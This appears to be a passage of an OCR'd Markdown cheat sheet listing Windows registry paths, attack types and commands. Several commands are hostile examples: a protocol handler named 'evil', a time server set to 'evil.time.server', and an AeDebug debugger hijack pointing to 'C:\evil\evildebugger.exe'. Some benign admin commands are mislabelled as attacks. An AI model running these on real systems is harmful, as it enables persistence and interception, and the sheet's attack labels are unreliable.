 **Registry Path:** `HKCR\PROTOCOLS\Handler`  
**Attacks:** Protocol Hijacking, Data Interception  
**Codes:** `reg add HKCR\PROTOCOLS\Handler\evil /ve /t REG_SZ /d "Evil Protocol Handler"`

### Windows Print Spooler Control

**Registry Path:** `HKLM\SYSTEM\CurrentControlSet\Control\Print\Printers`  
**Attacks:** Print Spooler Exploitation, Malware Execution  
**Codes:** `net stop spooler`

### Windows Group Policy Control

**Registry Path:** `HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Group Policy`  
**Attacks:** Policy Manipulation, System Control  
**Codes:** `gpupdate /force`

### Windows Time Service Control

**Registry Path:** `HKLM\SYSTEM\CurrentControlSet\Services\W32Time`  
**Attacks:** Time Manipulation, Certificate Exploitation  
**Codes:** `w32tm /config /manualpeerlist:"evil.time.server" /syncfromflags:manual /reliable:YES /update`

### Windows SMB Control

**Registry Path:** `HKLM\SYSTEM\CurrentControlSet\Services\LanmanServer\Parameters`  
**Attacks:** SMB Exploitation, Ransomware Propagation  
**Codes:** `reg add HKLM\SYSTEM\CurrentControlSet\Services\LanmanServer\Parameters /v SMB1 /t REG_DWORD /d 0`

### Windows Debugging Control

**Registry Path:** `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\AeDebug`  
**Attacks:** Debugging Manipulation, Malware Analysis Evasion  
**Codes:** `reg add HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\AeDebug /v Debugger /t REG_SZ /d "C:\evil\evildebugger.exe"`

### Windows Error Reporting Control

**Registry Path:** `HKLM\SOFTWARE\Microsoft\Windows\Windows Error Reporting`  
**Attacks:** Information Disclosure, System Analysis  
**Codes:** `reg add HKLM\SOFTWARE\Microsoft\Windows\Windows Error Reporting /v Disabled /t REG_DWORD /d 1`
